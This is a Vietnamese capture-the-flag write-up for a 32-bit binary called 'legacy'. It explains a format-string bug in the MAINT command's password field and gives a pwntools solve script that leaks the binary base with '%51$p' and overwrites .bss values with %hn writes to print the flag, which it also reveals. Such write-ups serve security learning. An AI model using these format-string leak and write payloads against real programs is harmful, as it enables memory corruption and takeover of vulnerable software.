










# legacy



Đề bài cho ta 1 file binary chỉ có `PIE on` còn lại thì tắt hết. Run thử chương trình xem qua chương trình làm gì:



Ta thấy chương trình cho phép chúng ta nhập các lệnh mà chương trình cho phép, có lẽ lệnh `FLAG` sẽ kiểm tra các điều kiện và in ra flag . Vậy bây giờ chúng ta hãy xem chi tiết chương trình trong ida:



Đầu tiên chương trình sẽ lấy string trong env `FLAG` trên sever vào biến, nếu ta chạy trên local thì chương trình sẽ lấy string có sẵn kia. 



Sau khi xử lý các lệnh ta nhập vào thì mỗi lệnh có 1 hàm riêng. Ta xem thử hàm `print_flag` trước:



Vậy suy luận của mình đã đúng. Hàm kiểm tra giá trị tại 2 địa chỉ xem có đúng không. Nếu đúng thì sẽ in ra flag của chúng ta.



Mình kiểm tra các hàm còn lại thì ở hàm của lệnh `MAINT <username> <password>` có 1 lỗi `format string` ở biến `password` ta nhập vào.



Vì các giá trị mà hàm `flag` kiểm tra thì đều nằm ở section `.bss` vì vậy ta hoàn toàn có thể sử dụng `fmt` để có thể thay đổi giá trị tại đó. Mà `PIE on` nên ta cần `leak binary` trước:





Do đây là file `32 bit` nên cách tính toán sẽ khác. Vậy sau khi ta leak được thì ta tính toán địa chỉ rồi ghi đè vào thôi.

## SOLVE SCRIPT

```python

#!/usr/bin/python3
from pwn import *


while(1):
    #p = process("./legacy")
    p = gdb.debug("./legacy")
    p.sendlineafter("> ",b"maint d  %51$p")
    p.recvuntil("0x")
    leak_binary = int(p.recvline(),16)
    log.info("binary_leak: " + hex(leak_binary))
    base_binary = leak_binary - 0x227d
    payload = b'maint d '
    payload += f'%{3}c%147$hhn%{0x1337-3}c%148$hn%{0xC0DE-0x1337}c%149$hn'.encode()
    payload = payload.ljust(0x40,b"a")
    payload += p32(base_binary+ 0x4ae0)
    payload += p32(base_binary+ 0x4ae6)
    payload += p32(base_binary+ 0x4ae4)

    p.sendlineafter("> ",payload)

    try :
        p.sendlineafter("> ",b"flag")
        p.recvuntil(b"FLAG SYSTEM")
        log.info("0x1337code: "+ hex((base_binary+ 0x4ae4)))
        p.interactive()
    except:
        #p.close()
        print("er")


    p.interactive()

```

Do địa chỉ của binary đôi lúc có chứa `0x0a` vì vậy khi ta nhập vào chương trình có thể bị lỗi, vậy nên ta cần để vào trong vòng lặp `while`



Chạy trên local thành công, giờ ta remote thôi

**FLAG:** `esch{control-the-pointer-phantom-zenith-3205}`